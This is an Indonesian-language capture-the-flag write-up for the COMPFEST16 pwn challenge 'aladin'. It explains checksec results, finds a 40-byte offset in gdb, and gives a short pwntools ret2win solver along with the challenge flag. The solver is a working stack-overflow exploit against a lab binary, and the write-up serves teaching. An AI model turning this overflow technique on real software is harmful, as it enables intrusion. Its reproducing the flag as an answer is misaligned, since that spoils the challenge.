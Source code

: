 # aladin
### Category: Binary Exploitation

**Deskripsi:**
>terkadang sebuah perjuangan tidak hanya memerlukan usaha, tapi memerlukan bantuan dari dunia gaib, hehehe...
>
>Author: nabilmuafa

## Analisis
Pada Chall ini kita di berikan sebuah file binary, dikarenakan ini chall pwn/binary exploitation maka hal yang pertama kita lakukan yaitu 
melakukan checksec, untuk mengecek keamanan dari file tersebut

![Preview](images/1.png)

Disebutkan di sini no canary found yang artinya tidak ada byte random sebelum saved rbp, dan no pie yang artinya tidak ada pengacakan address
di dalam binary dan file nya 64 bit, maka dari itu kita bisa dengan mudah mengoverflow file ini.

langkah selanjutnya kita analisis file nya menggunakan gdb seperti ini

![Preview](images/2.png)

di lihat dari function yang ada, maka kita bisa simpulkan ini adalah chall ret2win
[link ini](https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win)

kita coba analisis fungsi vuln nya

![Preview](images/3.png)

set rsp nya 0x20 atau 32 + save rbp 8 byte = 40, kita bisa menimpa buffer untuk menuju return address dan mengubah return tersebut menjadi return ke win.
kalau masih kurang yakin kita bisa menggunakan gdb untuk mencari letak offset
karena buffer nya 32 maka 32+8 byte rbp yaitu 40 atau bisa kalian crashing programnya dan mencari offset rsp
caranya sudah banyak di internet kalau masih kurang paham.

![Preview](images/4.png)

## Penyelesaian
kalau sudah dapat offset ke return address nya sekarang buat paylaod nya seperti ini
payload = offset + return win

sekarang kita buat solvernya 
**solver**
```
from pwn import *

elf = context.binary = ELF('./chall')

p = process()

payload = flat(b'a'*40,elf.sym.win)

p.sendline(payload)
p.interactive()
```

ketika di jalankan akan seperti ini

![Preview](images/5.png)

flag : `COMPFEST16{still_easy_ret2win_right?_a4e27d3beb}`

